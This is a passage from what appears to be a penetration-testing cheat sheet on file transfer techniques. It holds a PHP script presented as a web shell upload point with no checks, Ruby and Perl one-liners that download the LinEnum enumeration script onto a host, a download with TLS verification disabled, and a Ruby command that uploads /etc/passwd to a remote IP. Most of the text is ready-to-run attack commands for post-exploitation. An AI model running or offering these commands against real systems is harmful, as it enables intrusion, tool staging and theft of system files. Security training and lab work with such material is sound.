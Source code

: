 **PHP Web Shell Upload:**
```php
<?php
if (isset($_POST['upload'])) {
    $file = $_FILES['file'];
    move_uploaded_file($file['tmp_name'], $file['name']);
    echo "File uploaded successfully";
}
?>
<form method="post" enctype="multipart/form-data">
    <input type="file" name="file">
    <input type="submit" name="upload" value="Upload">
</form>
```

## Ruby

Ruby is another popular language that supports running one-liners from an operating system command line using the option `-e`.

**Ruby - Download a File:**
```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

**Ruby - Download with SSL:**
```bash
ruby -e 'require "net/http"; require "openssl"; uri = URI("https://example.com/file.txt"); http = Net::HTTP.new(uri.host, uri.port); http.use_ssl = true; http.verify_mode = OpenSSL::SSL::VERIFY_NONE; response = http.get(uri.path); File.write("file.txt", response.body)'
```

**Ruby - Upload File:**
```bash
ruby -e 'require "net/http"; require "net/http/post/multipart"; uri = URI("http://192.168.49.128:8000/upload"); File.open("/etc/passwd") {|f| req = Net::HTTP::Post::Multipart.new(uri.path, {"files" => UploadIO.new(f, "text/plain", "passwd")}); Net::HTTP.start(uri.host, uri.port) {|http| http.request(req)}}'
```

## Perl

Perl is widely available on many Linux systems and supports file transfer operations.

**Perl - Download a File:**
```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

**Perl - Alternative Download Method:**
```bash
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "https://example.com/file.txt"); my $file = $ff->fetch() or die $ff->error;'
```
